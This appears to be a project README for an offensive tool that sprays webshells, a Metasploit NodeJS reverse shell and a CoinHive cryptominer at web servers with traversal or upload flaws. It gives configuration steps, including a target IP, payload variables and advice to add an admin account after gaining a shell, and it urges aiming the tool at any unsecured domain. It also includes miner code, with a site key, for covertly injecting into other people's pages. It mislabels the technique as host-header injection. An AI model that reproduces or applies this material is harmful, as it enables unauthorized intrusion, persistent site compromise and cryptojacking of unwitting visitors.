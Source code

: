 # Tropical Cumblast - A easy-mode, webshell/reverse-shell and cryptojacking malware spamming cannon



Written in under a day using

1. Python Requests


2. Needs dotdotpwn reports so it has something to parse


3. Preloaded with Weevely PHP Weaponized Webshells, one JavaScript reverse shell provided by Rapid7 and one example CoinHive Cryptominer

<img src=https://raw.githubusercontent.com/tanc7/tropicalblast/master/running.png>

All it really does, is spam the living hell out of enumerated file upload vulnerabilities and path permissions issues that should have been taken care of by their administrators.

This is also known as host-header injection.

How it works is...

1. Reads a list of known directory traversal vulns from a wordlist
2. Generates a gigantic list of HTTP GET/POST/PUT requests,
3. Hammers the router with it for half an hour
4. And find out which one of the payloads made it.

You want to be looking at a traversal vulnerablity. that throws a code 302 or lower. That is the only chance we have at getting a stable shell to immediately work with.

Be warned, that it's quite tough. The first thing you should do if you land a shell is immediately get out of the environment, escalate your privileges and add yourself as a new username="admin". This app was specifically designed to launch Weevely PHP payloads, in both it's raw execuable form and as a embedded malware component on webpages.

# Installing and running it.

As long as you have dotdotpwn and some form of a reverse or web shell, then you are already ready to go.

1. Generate a wordlist of scanning results via dotdotpwn. dotdotpwn -m http -h http://ip.addr.ip.v4:80
2. Save the terminal results and change the value of 

**list_of_injectable_links** = "/root/dumppvulns.log"


**target** = "http://104.27.155.158:80"


**payload** = "thumbnails.php"

Then you need to generate some payloads. Be sure to take the shellcode and replace the values of these with it...

**raw_nodejs** = """
<html lang="en" dir="ltr">
    <meta charset="utf-8">
    <script type="text/javascript">
    </script>
    
**html_embedded_payload_buffer** = """
<html lang="en" dir="ltr">
    <meta charset="utf-8">
<script type="text/php">
    </script>
  
 # And remember to select your payload by changing the value of this.
 
**payload_buffer** = html_embedded_payload_buffer


With someone's index.html in the root web directory, with rwx permissions, then the payload will definitely go off even if its embedded as script tags in the html webpage. 

If someone loads your website. It goes off. Inside of THEIR webbrowser. And if they were to escape the sandbox of the web browser, then they got a lot to worry about.

# This already is working with...

1. Three working payloads from

      a. A Weevely PHP Penetration Testing Webshell
      b. A embedded PHP of that variant inside of a file called index.htm (it is created when the attack starts) due to the nature of POST requests
      c. A NodeJS Metasploit reverse shell, easily upgradable to Meterpreter.
  
Shell injection vulnerabilities are in fact, disturbingly common. If you own a wordpress, try running this against it to audit it.

# Official Steps

1. Generate a vulnerability report with dotdotpwn
2. Generate your own payloads using Weevely, Metasploit, Pupy, CoinHive, etc.
3. Load all of the obfuscated code into the script urlinjector.py

Point your cannon at whatever unsecured domain you found, and let it rip! Keep your reverse shell listeners running at ALL TIMES. If a web app payload embedded into a webpage snares someone, their reverse shell will be connecting IMMEDIATELY.
# Frighteningly enough, you can even blast websites with persistent cryptominers on it.

First make a account on CoinHive. https://coinhive.com/. Don't forget to get yourself a web wallet too for the Monero you'll be making.

Then take a look at the CONSENSUAL MINER CODE and merely replace the source web app link as so.

```
<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 256px; height: 310px"
	data-key="YOUR_SITE_KEY">
	<em>Loading...</em>
</div>
```
Here is the completed work. All you need to do is switch the src javascript file and add your official CoinHive key. Be sure to encrypt it when you actually use this blaster.

```
 <script src="https://coinhive.com/lib/coinhive.min.js"></script>
  <script>
  	var miner = new CoinHive.Anonymous('mPVwGCQgKvckboARWHMIe3CYLTISHSzU', {throttle: 0.3});

  	// Only start on non-mobile devices and if not opted-out
  	// in the last 14400 seconds (4 hours):
  	if (!miner.isMobile() && !miner.didOptOut(14400)) {
  		miner.start();
  	}
  </script>
```

Finally you want to enclose it with a ordinary webpage's syntax

```
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title></title>
  </head>
  <body>
    <script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner"
	style="width: 256px; height: 310px"
	data-key="YOUR_SITE_KEY">
	<em>Loading...</em>
</div>
  </body>
</html>
```

Or just download someone else's page with wget or httrack and then slip this code in there before loading it into the cannon.


